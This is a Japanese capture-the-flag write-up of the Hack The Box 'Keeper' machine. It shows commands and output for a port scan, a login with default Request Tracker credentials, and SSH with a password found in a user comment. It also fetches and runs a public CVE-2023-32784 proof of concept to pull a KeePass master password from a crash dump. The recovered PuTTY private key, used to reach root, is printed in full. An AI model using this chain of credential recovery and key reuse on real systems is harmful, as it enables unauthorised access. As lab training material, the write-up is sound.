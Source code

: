 https://app.hackthebox.com/machines/Keeper

## STEP 1
```sh
└─$ rustscan -a 10.129.190.164 --no-banner --scripts none
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.129.190.164:22
Open 10.129.190.164:80
10.129.190.164 -> [22,80]
```


## STEP 2
80番にアクセス  
別のurlにアクセスするよう言われている  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Keeper_01.png">  
/etc/hosts/を編集
```sh
└─$ echo '10.129.229.41 tickets.keeper.htb' | sudo tee -a /etc/hosts
10.129.229.41 tickets.keeper.htb
```
再度アクセス  
[リンク](https://rt-wiki.bestpractical.com/wiki/RecoverRootPassword)よりデフォルトクレデンシャル root/password が判明、ログインできた　　
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Keeper_02.png">  
Adminタブから lnorgaard というユーザを確認できるが、コメントからパスワードが「Welcome2023!」と判明した  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Keeper_03.png">  
22番が開いていたので、先ほどのクレデンシャルでsshログイン成功！ユーザフラグゲット
```sh
└─$ ssh lnorgaard@10.129.190.164    
The authenticity of host '10.129.190.164 (10.129.190.164)' can't be established.
ED25519 key fingerprint is SHA256:hczMXffNW5M3qOppqsTCzstpLKxrvdBjFYoJXJGpr7w.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.190.164' (ED25519) to the list of known hosts.
lnorgaard@10.129.190.164's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
You have mail.
Last login: Tue Aug  8 11:31:22 2023 from 10.10.14.23
lnorgaard@keeper:~$ cat user.txt
86a82b35f5d9dbf56d69283eafbf4ff7
```


## STEP 3
ユーザフラグと同フォルダ内に、zipがあったのでkaliにダウンロード
```sh
lnorgaard@keeper:~$ ls
RT30000.zip  user.txt

lnorgaard@keeper:~$ exit
logout
Connection to 10.129.190.164 closed.

└─$ scp lnorgaard@10.129.190.164:/home/lnorgaard/RT30000.zip .
lnorgaard@10.129.190.164's password: 
RT30000.zip
```
zipには、メモリダンプファイルと.kdbxがあった  
kdbxはkeepass（パスワード管理ツール）のパスワードが入ったファイルだそう
```sh
└─$ unzip RT30000.zip                  
Archive:  RT30000.zip
  inflating: KeePassDumpFull.dmp     
 extracting: passcodes.kdbx

└─$ file KeePassDumpFull.dmp                                                                                 
KeePassDumpFull.dmp: Mini DuMP crash report, 16 streams, Fri May 19 13:46:21 2023, 0x1806 type            

└─$ file passcodes.kdbx     
passcodes.kdbx: Keepass password database 2.x KDBX
```
.kdbxを開くにはkaliでは「keepass2」コマンドでできる  
実際に開くとパスワードが必要っぽい  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Keeper_04.png">  
パスワードをクラックしてみたが、失敗．．．
```sh
└─$ keepass2john passcodes.kdbx > keepass.txt

└─$ john --wordlist /usr/share/wordlists/rockyou.txt --format=keepass keepass.txt
Warning: invalid UTF-8 seen reading /usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 60000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 2 OpenMP threads
Proceeding with wordlist:/usr/share/john/password.lst
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:23 DONE (2025-07-12 07:25) 0g/s 153.5p/s 153.5c/s 153.5C/s notused..sss
Session completed.
```
先ほどのブラウザで、keepassのissueに関するチケットを lnorgaard が作成したこと確認  
とういことはzip内のメモリダンプはkeepassのクラッシュダンプね  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Keeper_05.png">  
ここでkeepassには、CVE-2023-32784が存在しクラッシュダンプからパスワードを復元できる脆弱性があるらしい  
PoCを試してみると文字列は抽出できたが、何文字が欠落しているっぽい
```sh
└─$ wget -nv https://raw.githubusercontent.com/z-jxy/keepass_dump/refs/heads/main/keepass_dump.py
--2025-07-12 10:30:42--  https://raw.githubusercontent.com/z-jxy/keepass_dump/refs/heads/main/keepass_dump.py

└─$ python3.13 keepass_dump.py -f KeePassDumpFull.dmp 
[*] Searching for masterkey characters
[-] Couldn't find jump points in file. Scanning with slower method.
[*] 0:  {UNKNOWN}
[*] 2:  d
[*] 3:  g
[*] 4:  r
[*] 6:  d
[*] 7:   
[*] 8:  m
[*] 9:  e
[*] 10: d
[*] 11:  
[*] 12: f
[*] 13: l
[*] 15: d
[*] 16: e
[*] Extracted: {UNKNOWN}dgrd med flde
```
ぐぐってみると、「rødgrød med fløde」の文字を発見  
deeplで翻訳してみるとデンマーク語らしい、どうやって入力するねん  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Keeper_06.png">  
「rødgrød med fløde」で開くことができた、どうやらputty形式のssh秘密鍵が保存されている
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Keeper_07.png">  
putty形式のssh秘密鍵を保存
```sh
└─$ cat putty                                                                                                           
PuTTY-User-Key-File-3: ssh-rsa
Encryption: none
Comment: rsa-key-20230519
Public-Lines: 6
AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
Private-Lines: 14
AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0
```
ssh秘密鍵に変換してrootログイン成功！ルートフラグゲット！
```sh
└─$ puttygen putty -O private-openssh -o ida_rsa

└─$ ssh -i ida_rsa root@10.129.190.164
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have new mail.
Last login: Tue Aug  8 19:00:06 2023 from 10.10.14.41
root@keeper:~# cat root.txt
dd05820dc970d89af4d2893b0b9a3027
```
